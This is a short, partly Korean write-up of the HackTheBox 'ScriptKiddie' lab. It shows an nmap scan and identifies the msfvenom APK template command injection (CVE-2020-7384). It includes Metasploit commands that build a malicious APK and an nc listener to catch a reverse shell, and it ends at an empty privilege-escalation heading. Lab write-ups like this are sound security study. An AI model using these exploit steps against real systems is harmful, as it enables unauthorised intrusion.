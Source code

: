 ## Machine: ScriptKiddie
- Date: 2021.05.02
- Author: jak010

### Setup
- ExportIP: 10.10.10.226


### Nmap Scan
```text
# Nmap 7.91 scan initiated Sun May  2 15:52:33 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.226
Nmap scan report for 10.10.10.226
Host is up (0.21s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  2 15:52:51 2021 -- 1 IP address (1 host up) scanned in 17.95 seconds
```

### Interesting
- 사용자가 입력한 값을 결과로 보여주고 있음
- `Payloads`를 입력받는 곳에서 플랫폼을 선택할 수 있음
	- windows
	- linux
	- android

### Malicious Payload
- `exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
	- Refer to
		- `https://nvd.nist.gov/vuln/detail/CVE-2020-7384`
		- `https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/`

### Exploit && Ganing Shell
- Payload Generate
    ```sh
    msf6 > search apk_template
    msf6 > use 0
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.58
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit
    [+] msf.apk stored at /Users/jak/.msf4/local/msf.apk
    ```
- Reverse Shell
	- OS X
        ```sh
        $ nc -nvl 4444
        ``` 

### Priviliege Escalate


